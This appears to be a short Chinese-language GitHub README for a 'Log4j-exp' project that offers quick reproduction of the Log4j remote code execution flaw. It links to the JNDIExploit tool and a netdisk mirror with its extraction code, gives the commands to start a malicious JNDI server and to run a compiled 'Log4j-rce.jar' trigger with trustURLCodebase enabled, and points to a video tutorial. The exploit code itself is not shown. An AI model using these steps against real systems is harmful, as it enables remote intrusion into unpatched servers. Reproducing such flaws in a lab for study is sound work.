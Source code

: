 # Log4j-exp
帮助你快速复现Log4j漏洞   
           
首先你可以去百度网盘或者github下载所需要的jar包来更方便快捷的开起jndi   
`https://github.com/feihong-cs/JNDIExploit`    
`https://pan.baidu.com/s/1lxXt-27-i7I_dOUACphVtQ 提取码: nkc5 `      
         
下载完成之后使用以下命令开一个jndi   
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ip`         

        
下载本项目之后使用idea编译将项目编译为jar之后使用以下命令触发   
`java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar Log4j-rce.jar`         
    
下方是视频演示教学地址相信我你也可以变成光   
`https://www.bilibili.com/video/BV1iL4y1H7ax/`    

非常感谢HMCDC的分享
